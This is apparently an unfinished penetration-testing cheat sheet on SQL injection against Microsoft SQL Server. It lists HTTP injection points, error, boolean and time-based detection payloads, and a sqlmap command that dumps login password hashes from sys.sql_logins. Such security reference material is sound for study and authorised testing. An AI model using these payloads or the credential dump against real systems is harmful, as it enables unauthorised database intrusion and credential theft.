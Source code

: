 # Web Application - SQL Injection - MSSQL

Microsoft SQL Server is a relational database management system developed by
Microsoft.  
Microsoft markets a dozen different editions of Microsoft SQL Server with
various functionalities and aims. A list of the versions is available :
https://support.microsoft.com/en-us/help/321185/how-to-determine-the-version-edition-and-update-level-of-sql-server-an

**MSSQL supports stacked queries.**

### Vulnerable parameters detection

###### Injection locations

In a HTTP request there are a few possible injection points :
 - URL parameters
 - POST parameters
 - Cookie names and values
 - Host header and any custom headers

Note that while the entry points above are the most common, any content in an
HTTP request can be prone to SQL injection.

###### Injection detection

Detecting vulnerable parameters is most easily done by triggering errors and
boolean logic within the application.  
Supplying malformed queries will trigger errors and sending valid queries with
various boolean logic statements may trigger different responses from the web
server.  
Time based payload can also be used to detect SQL injection in MSSQL.  

| Technique      | Queries   |
|----------------|-----------|
| Error <br /> *A direct message can be returned or the page may act differently*    | `x='` <br/> `x=''` <br/> `x="` <br/> `x=""` <br/> `x=\` <br/> `x=\\` <br/> `x=\'` <br/> `...`  |
| Boolean Testing <br /> *Page can react differently if true or false* | `x=1 or 1=1 -- true` <br /> `x=1' or 1=1 -- true` <br/> `x=1" or 1=1 -- true` <br/> `x=1 or 1=2 -- false`  <br/> `...` |
| Time Based <br /> *A delay can be induced by the query execution* | `x=1 WAITFOR DELAY '0:0:5' -- Wait 5 seconds` <br /> `x=1; WAITFOR DELAY '0:0:5' -- Wait 5 seconds` <br />  `x=1 WAITFOR TIME '22:42' -- Wait until 22:42` <br /> `...` |

###### Automated detection

The detection of vulnerable parameters can be automated, using the `BurpSuite
Pro scanner` or `sqlmap` for example.

Note that second order SQL injection, which arises when user-supplied data is
first stored by the application and then later incorporated into SQL queries
in an unsafe manners, may not be properly detected by automatic tools.  

### Databases dumping

| Description | Queries |
|-------------|---------|
| Comments | |
| Encoding queries | |
| Obfuscating queries | |
| Disable logging mechanisms | |
| MSSQL version | |
| Current user | `SELECT (CAST(SYSTEM_USER AS NVARCHAR(4000)))` |
| Users and privileges | |
| Users' passwords | Using `sqlmap`: <br> `sqlmap -D master -T sys.sql_logins --dump [...]` |
| Databases | |
| Current database | `SELECT (CAST(DB_NAME() AS NVARCHAR(4000)))` |
| Tables | |
| Columns | |
| Data | |
